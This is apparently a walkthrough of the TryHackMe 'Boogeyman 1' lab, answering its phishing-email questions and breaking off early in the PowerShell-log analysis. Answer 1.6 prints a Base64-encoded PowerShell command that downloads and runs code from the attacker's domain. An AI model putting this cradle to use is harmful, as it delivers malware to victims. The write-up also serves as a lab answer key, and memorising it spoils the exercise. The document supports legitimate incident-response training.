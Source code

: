 ```yaml
---
title: Boogeyman 1
description: 
published: true
date: 2025-08-08T15:46:46.593Z
tags: 
editor: markdown
dateCreated: 2025-08-08T14:34:09.156Z
---
```


# Boogeyman 1

https://tryhackme.com/room/boogeyman1

## Introduction - New threat in town

*Uncover the secrets of the new emerging threat, the Boogeyman.*

In this room, you will be tasked to analyse the Tactics, Techniques, and Procedures (TTPs) executed by a threat group, from obtaining initial access until achieving its objective. 

Investigation Platform

Before we proceed, deploy the attached machine by clicking the Start Machine button in the upper-right-hand corner of the task. It may take up to 3-5 minutes to initialise the services.

The machine will start in a split-screen view. In case the VM is not visible, use the blue Show Split View button at the top-right of the page.

### Artefacts

For the investigation proper, you will be provided with the following artefacts:

- Copy of the phishing email (dump.eml)
- Powershell Logs from Julianne's workstation (powershell.json)
- Packet capture from the same workstation (capture.pcapng)

Note: The powershell.json file contains JSON-formatted PowerShell logs extracted from its original evtx file via the evtx2json tool.

You may find these files in the /home/ubuntu/Desktop/artefacts directory.

### Tools

The provided VM contains the following tools at your disposal:

- Thunderbird - a free and open-source cross-platform email client.
- LNKParse3 - a python package for forensics of a binary file with LNK extension.
- Wireshark - GUI-based packet analyser.
- Tshark - CLI-based Wireshark. 
- jq - a lightweight and flexible command-line JSON processor.

To effectively parse and analyse the provided artefacts, you may also utilise built-in command-line tools such as:

- grep
- sed
- awk
- base64

Now, let's start hunting the Boogeyman!

---
<br>

## 1. Email Analysis - Look at the headers!

Julianne, a finance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation.

![0_1.png](/thm/challenges/boogeyman_1/0_1.png)

The security team was able to flag the suspicious execution of the attachment, in addition to the phishing reports received from the other finance department employees, making it seem to be a targeted attack on the finance team. Upon checking the latest trends, the initial TTP used for the malicious attachment is attributed to the new threat group named Boogeyman, known for targeting the logistics sector.

You are tasked to analyse and assess the impact of the compromise.

---
<br>

### 1.1 What is the email address used to send the phishing email?

I used `cat` and `grep` to extract the sending email address:

![1_1.png](/thm/challenges/boogeyman_1/1_1.png)

> `agriffin@bpakcaging.xyz`
{.is-success}

### 1.2 What is the email address of the victim?

Same approach as the question before:

![2_1.png](/thm/challenges/boogeyman_1/2_1.png)

> `julianne.westcott@hotmail.com`
{.is-success}

### 1.3 What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?

The information is written in the header of the mail. I read the mail with `cat` and used `head -n 50` to get the first 50 lines of the mail. I found the DKIM-Signature of the third-party mail relay service:

![3_1.png](/thm/challenges/boogeyman_1/3_1.png)

> elasticemail
{.is-success}

### 1.4 What is the name of the file inside the encrypted attachment?

To get the attachment of the mail I finally opened the mail in Thunderbird and downloaded the zip-file. Then I opened it (and I presume that I'm working on a secure, sandboxed environment) and saw the name of the file that is inside the archive: 

![4_1.png](/thm/challenges/boogeyman_1/4_1.png)

> Invoice_20230103.lnk
{.is-success}

### 1.5 What is the password of the encrypted attachment?

The password was plain in the email:

![5_1.png](/thm/challenges/boogeyman_1/5_1.png)

> Invoice2023!
{.is-success}

### 1.6 Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?

I unzipped the archive and used `lnkparse Invoice_20230103.lnk` to parse the content of this lnk. There I found the encoded string: 

![6_1.png](/thm/challenges/boogeyman_1/6_1.png)

> aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
{.is-success}


## 2. Endpoint Security - Are you sure that's an invoice?

Based on the initial findings, we discovered how the malicious attachment compromised Julianne's workstation:

- A PowerShell command was executed.
- Decoding the payload reveals the starting point of endpoint activities. 

**Investigation Guide**

With the following discoveries, we should now proceed with analysing the PowerShell logs to uncover the potential impact of the attack:

- Using the previous findings, we can start our analysis by searching the execution of the initial payload in the PowerShell logs.
- Since the given data is JSON, we can parse it in CLI using the jq command.
- Note that some logs are redundant and do not contain any critical information; hence can be ignored.

**JQ Cheatsheet**

jq is a lightweight and flexible command-line JSON processor. This tool can be used in conjunction with other text-processing commands. 

You may use the following table as a guide in parsing the logs in this task.

![0_2.png](/thm/challenges/boogeyman_1/0_2.png)

### 2.1 What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)

I never worked with the `jq` tool before so I had to do some try and errors. I got familiar with it first by getting all the fields thats in there. After some failed tries I successfully used `cat powershell.json | jq keys[] | sort | uniq` to get all the keys that are available:

![7_1.png](/thm/challenges/boogeyman_1/7_1.png)


